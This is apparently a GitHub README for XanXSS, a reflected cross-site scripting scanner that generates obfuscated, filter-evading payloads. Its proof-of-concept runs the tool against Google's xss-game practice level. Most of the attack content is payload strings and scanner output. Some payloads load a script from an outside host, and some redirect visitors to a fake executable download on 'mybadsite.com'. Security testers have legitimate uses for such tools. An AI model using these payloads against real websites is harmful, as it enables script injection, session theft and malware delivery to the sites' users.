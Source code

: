 # XanXSS

XanXSS is a reflected XSS searching tool (DOM coming soon) that creates payloads based from templates. Unlike other XSS scanners that just run through a list of payloads. XanXSS tries to make the payload unidentifiable, for example: 

```bash
<xAnXSS</TitLE></STYLE><SVG/ONload='alERt(1);'/></XaNxSs</titLe></StYlE><SvG/ONlOAD='alerT(1);'/>
<ifrAmE&#13;Src=&#160;[2].Find(CoNfirm);=&#160;"JAVaScRIpT:proMpT(1))"javAscrIpt:/*--></scRIPt>
/>cLIcK&#13;Me!</b</TextaRea></TiTLE><BUTtON ONcLIck='aleRT(1);'/>XaNxss</TEXTaRea>
<iMG&#13;sRc=%0acONfIRM();=+'jAVASCRiPT:alerT("XSS");'</STYlE><Svg/onLoad='alErT((1));'/>
```

With XanXSS every payload is different. XanXSS works by running through the payloads until a specified number is found or a timer hits the max time, this prevents it from looping for to long.

# Proof of Concept

For this proof of concept we will use https://xss-game.appspot.com/level1/frame

```bash
admin@TBG-a0216:~/bin/python/xanxss$ python xanxss.py -u "http://xss-game.appspot.com/level1/frame?query=" -a 12 -t 12 -f 25 -v 

    ____  ___             ____  ___  _________ _________
    \   \/  /____    ____ \   \/  / /   _____//   _____/
     \     /\__  \  /    \ \     /  \_____  \ \_____  \ 
     /     \ / __ \|   |  \/     \  /        \/        \
    /___/\  (____  /___|  /___/\  \/_______  /_______  /
          \_/    \/     \/      \_/        \/        \/ 
Twitter->   @stay__salty
Github -->  ekultek         
Version---> v(0.1)


[info][16:37:34] using default payloads
[info][16:37:34] generating payloads
[info][16:37:34] running payloads through tampering procedures
[info][16:37:34] payloads tampered successfully
[info][16:37:34] running payloads
[debug][16:37:34] running payload '<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>'
[debug][16:37:34] running payload '<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>'
[debug][16:37:34] running payload '<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>'
[debug][16:37:34] running payload '<iMG/+/sRc=%0dA=%0DPrOMpt,a(();=%0a'JaVaSCripT:aLeRt("XSS"));'javasCRiPT:/*--></sCRipt>'
[debug][16:37:34] running payload '<SCRIPT/*/srC=&#34;&#62;A=%0aprompT,A(();=%09'htTp://xSs.rockS/XSs.Js'</TeXTARea></TiTLE><buTTOn oncLiCK='ALeRT(1);'/>XAnXsS</tEXTARea></scrIPTjaVaSCRipT:/*--></sCRIPt>'
[debug][16:37:35] running payload '<IMg&#160;SRC=%09CONFIRM(());=%0a'JavAscrIpt:aLERt("XSS");'JavasCrIpT:/*--></SCripT>'
[debug][16:37:35] running payload '<XAnXSS</STYlE><SVg/OnLOAd='aLeRT(1));'/></xAnXsSjaVasCRIpt:/*--></scrIpt>'
[debug][16:37:35] running payload '<sCRIPt`Src=+cOnFiRm());=+'htTP://xSs.rOCKs/xsS.js'</TextaREA></tiTle><ButTon ONCliCK='AlErt(1);'/>xanxSS</TeXTarEa></SCriPtJAvaScrIPt:/*--></SCrIpt>'
[debug][16:37:35] running payload '<scRIpT</title></stYle><sVG/onlOAD='AlERT(1));'/>aLert((1));</scRipT</titLE></STyLe><sVG/oNlOad='aLeRt((1));'/>'
[debug][16:37:35] running payload '<SC\u009lripT/*/SrC=%0aConFirm();=&#160;'hTTP://xsS.ROcks/xSs.js'</TITle></StYlE><svg/ONLOad='ALerT(1);'/></ScriPT</StyLe><svG/OnLOAd='ALert((1);'/>'
[debug][16:37:35] running payload '<B//ONMOuSEOver=&#34;&#62;ConFIrm(();=&#160;wIndow.LoCATIoN=&#160\u005g;(pRoMPT))``;=%0A'htTpS://MyBaDSitE.cOM/dOwnLoAd.phP?iTem=+(pRomPt)``;=%0apuMPEDuPkICKs.exE'jaVAScrIpt:/*--></sCrIPt>ClIcK/*/mE!</b</tiTLe></sTyLE><sVG/OnLoAd='aLert(1));'/>'
[debug][16:37:35] running payload '<IfRA\u007pme%00SrC=%0AcOnFIRm(());=%0a"jaVAScriPT:pRoMPT(1)"jAVaScRIpt:/*--></SCriPt>'
[debug][16:37:36] running payload '<IframE//SrC=&#34;&#62;CONfIRM());=%0d"jAvAscriPT:pROMpT(1)"</TeXtarEa></TiTLe><BUttoN oNcliCK='aLERt((1));'/>XanXss</texTAReA>'
[debug][16:37:36] running payload '<iMG/+/SRc=%09[3].FInd(COnFIRm));=&#34;&#62;'javAscriPt:A\u004pLerT("XSS");'JavaSCriPt:/*--></sCripT>'
[debug][16:37:36] running payload '<imG&#160;SRc=%0d[2].FinD(cOnFiRm));=&#160;'JaVaScRipt:ALERt("XSS"));'</styLe><SVg/oNLoad='ALErT(1));'/>'
[debug][16:37:36] running payload '<script</tITLE></style><SVG/onLOAD='alerT(1);'/>AleRt(1);</ScRIpTjAvASCrIPT:/*--></scRIPt>'
[debug][16:37:36] running payload '<XaNxSs</tITle></sTYlE><SVg/ONload='aLERT((1);'/></xANxsS</stYLE><Svg/OnlOAD='AleRt(1);'/>'
[debug][16:37:36] running payload '<b//ONmOUSEoVEr=%0D[8].fInd(coNfIrM);=%09WinDoW.location=%0A(COnfiRm)(();=&#160;'htTPS://MYBadsite.cOM/DoWNlOaD.php?ITEm=+COnFIrM();=+puMPEDupKickS.ExE'</styLe><sVG/OnLOAd='alERt((1);'/>CLick%00Me!</b</sTYlE><SVG/onloAD='AlERt(1);'/>'
[debug][16:37:37] running payload '<scriPT</styLE><SvG/ONloaD='aLERT(1);'/>ALeRt(1);</SCrIPt</tiTLe></STYlE><sVG/OnloAd='aLeRT(1\u009x);'/>'
[debug][16:37:37] running payload '<iFRamE%00srC=&#34;&#62;[7].FInD(cOnFiRm);=%0A"javAsCRipT:prompt(1))"</tITlE\u009e></sTyle><svg/oNLOad='alert((1);'/>'
[debug][16:37:37] running payload '<b/*/OnmOusEOver=&#160;A=%0apROMpt,A();=+wINdOW.LOCAtIon=&#34;&#62;co\U006EfiR\u006\u003id();=%09'HTtPS://MYBAdsiTE.com/doWNload.php?itEm=+((CoNfIrm)();=&#34;&#62;puMpedUPKickS.eXe'</teXtaREa></tiTLe><BUTTON oNclIck='aLeRT((1);'/>XanXsS</texTAREA>cLICk/*/Me!</B</StylE><SVG/ONloAd='aLERt((1));'/>'
[debug][16:37:37] running payload '<XANxSSJaVaScRIpt:/*--></SCripT></XAnXSs</TExtAREa></tITle\u008w><b\u009fuTTON oNclIck='Ale\u003rRT((1);'/>xANXss</TEXTArEA>'
[debug][16:37:37] running payload '<SCript/*/sRC=+A=&#160;prOmpt,A();=&#160;'HtTp://XsS.rocKS/xsS.JS'</stylE><sVG/onLoad='AlErT((1);'/></SCriptjAvaScriPt:/*--></ScrIpt>'
[debug][16:37:37] running payload '<ImG&#13;SRc=&#34;&#62;Co\U006efIr\u006D();=%0a\u007u'javAsCript:AlerT(("XSS");'</titlE></StYLe><svg/onloAD='alERt(1);'/>'
[debug][16:37:38] running payload '<B/*/ONmouSeOvEr=%0Aa=&#160;prOmpT,A();=%09WIndOw.LOCAtION=%0Aa=%09prompt,a();=%0A'hTTps://MYBadsITe.COM/DOWNLOAD.PHp?ITeM=&#160;cO\u006Efir\u006D());=%0dPumPeduPkicks.EXE'</tITlE></StyLE><svg/OnlOAD='aLerT((1));'/>clIcK&#13;mE!</bJavASCript:/*--></sCrIPT>'
[warning][16:37:48] times up dumping found
[info][16:37:48] working payloads:
--------------------------------------------------
  ~~> <xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>
  ~~> <SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>
  ~~> <xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>
--------------------------------------------------
[info][16:37:48] found a total of 3 working payloads
admin@TBG-a0216:~/bin/python/xanxss$ 
```

Now lets check those scripts in the HTML of the website:

Payload:```<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>```
![xanxsspoc1](https://user-images.githubusercontent.com/14183473/48165682-f1dede00-e2ab-11e8-8c33-4cd8d909b760.png)

Payload: ```<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>```
![xanxsspoc2](https://user-images.githubusercontent.com/14183473/48165747-25216d00-e2ac-11e8-8d2f-8f6eed88f7b8.png)

Payload: ```<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>```
![xanxsspoc3](https://user-images.githubusercontent.com/14183473/48165767-38343d00-e2ac-11e8-8785-aa736183ab9d.png)


# Options

XanXSS comes complete with the ability to use a proxy, is compatible with proxychains, and allows you to add custom headers. I have provideda full list of options for your convience:

```bash
usage: xanxss.py [-h] [-u http://test.com/test.php?id=] [-a VERIFY]
                 [-f AMOUNT] [-t TIME]
                 [-p SCRIPT,SCRIPT,SCRIPT [SCRIPT,SCRIPT,SCRIPT ...]]
                 [-F FILE-PATH] [-v] [--proxy TYPE://IP:PORT]
                 [-H HEADER=VALUE,HEADER:VALUE]

optional arguments:
  -h, --help            show this help message and exit
  -u http://test.com/test.php?id=, --url http://test.com/test.php?id=
                        pass a URL to test for XSS vulnerabilities
  -a VERIFY, --amount VERIFY
                        how many verifications steps to be taken
  -f AMOUNT, --find AMOUNT
                        find this amount of working payloads
  -t TIME, --time TIME  amount of time in seconds to spend on testing
  -p SCRIPT,SCRIPT,SCRIPT [SCRIPT,SCRIPT,SCRIPT ...], --payloads SCRIPT,SCRIPT,SCRIPT [SCRIPT,SCRIPT,SCRIPT ...]
                        pass a comma separated list of your own payloads
  -F FILE-PATH, --file FILE-PATH
                        pass a file containing payloads
  -v, --verbose         run in verbose mode
  --proxy TYPE://IP:PORT
                        pass a proxy in the format type://ip:port
  -H HEADER=VALUE,HEADER:VALUE, --headers HEADER=VALUE,HEADER:VALUE
                        Add your own custom headers to the request
```
